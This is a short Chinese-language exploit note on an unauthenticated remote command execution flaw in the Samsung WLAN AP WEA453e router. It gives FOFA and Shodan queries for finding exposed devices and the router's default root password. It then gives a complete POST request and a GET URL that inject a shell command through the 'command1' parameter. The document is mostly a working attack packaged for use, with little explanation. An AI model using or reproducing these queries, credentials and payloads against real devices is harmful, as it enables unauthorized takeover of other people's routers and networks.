

# 三星路由器WLAN AP WEA453e 未授权RCE等多个漏洞

这玩意儿国内基本上碰不到..不知道为啥要写个工具那啥再那啥....

FOFA：

```
title=="Samsung WLAN AP"
```

Shdan：

```
title:"Samsung WLAN AP"
```

路由器默认密码为：

```
root
sweap12~
```

### rce：

**POST：**

```bash
POST /(download)/tmp/a.txt HTTP/1.1
Host: forum.ywhack.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 41

command1=shell:ifconfig| dd of=/tmp/a.txt
```

**Get：**

```
/(download)/tmp/a.txt?command1=shell:ifconfig| dd of=/tmp/a.txt
```



ref：

* https://iryl.info/2020/11/27/exploiting-samsung-router-wlan-ap-wea453e/
* https://forum.ywhack.com/thread-114838-1-4.html
